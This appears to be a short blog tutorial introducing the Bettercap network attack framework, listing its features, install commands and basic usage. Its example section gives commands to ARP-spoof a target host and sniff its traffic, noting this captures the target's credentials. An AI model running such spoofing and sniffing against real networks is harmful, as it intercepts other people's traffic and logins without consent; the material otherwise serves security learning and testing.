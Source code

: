 ```yaml
---
title: "Bettercap"
date: 2022-07-02T18:16:26Z
draft: false
author: "Dark-Kernel"
---
```


## Bettercap Framework


Bettercap is a powerfull, easily extensible and portable framework written in Go which aims to offer to security researches, redteamers and reverse engineers an easy to use, all-in-one solution with all the features they might possibly need for performing reconnaissance and attacking WiFi networks, Bluetooth Low Energy devices, wireless HID devices and IPv4/IPv6 networks.

![bettercap_pic](https://www.bettercap.org/logo.png)

                   
 ## Main Features

 * **WiFi** networks scanning, [deauthentication attack](https://www.evilsocket.net/2018/07/28/Project-PITA-Writeup-build-a-mini-mass-deauther-using-bettercap-and-a-Raspberry-Pi-Zero-W/), [clientless PMKID association attack](https://www.evilsocket.net/2019/02/13/Pwning-WiFi-networks-with-bettercap-and-the-PMKID-client-less-attack/) and automatic WPA/WPA2 client handshakes capture.
* **Bluetooth Low Energy** devices scanning, characteristics enumeration, reading and writing.
* 2.4Ghz wireless devices scanning and **MouseJacking** attacks with over-the-air HID frames injection (with DuckyScript support).
* Passive and active IP network hosts probing and recon.
* **ARP, DNS, NDP and DHCPv6 spoofers** for MITM attacks on IPv4 and IPv6 based networks.
* **Proxies at packet level, TCP level and HTTP/HTTPS** application level fully scriptable with easy to implement **javascript plugins**.
* A powerful **network sniffer** for **credentials harvesting** which can also be used as a **network protocol fuzzer**.
* A very fast port scanner.
* A powerful [REST API](https://www.bettercap.org/modules/core/api.rest/) with support for asynchronous events notification on websocket to orchestrate your attacks easily.
* **A very convenient [web UI](https://www.bettercap.org/usage/#web-ui).**


Get More infomation on their official website [More!](https://www.bettercap.org/modules/)


## Installation

To install bettercap use the following commands:

~ Arch

	sudo pacman -S bettercap

~ Kali

	sudo apt install bettercap

~ Others use their official repository

	https://github.com/bettercap/bettercap


## Basic stuffs


First fireup you bettercap on terminal

	sudo bettercap

![bettercap_start](/btr_start.png)



Search devices on your network

	net.probe on

	net.show

  

You can perform MITM attack also 
### Example

	set arp.spoof.fullduplex true

 	set arp.spoof.targets <target ip>

 	arp.spoof on

 	net.sniff on


Now you will get all the data where the target visits. including the credentials.



# 
# **We can use web view also**

   1. First install ui

 	ui.update

   2. Then 

 	https-ui

 Now you will get a link visit that page and explore.


        
# **Thanks for reading.**

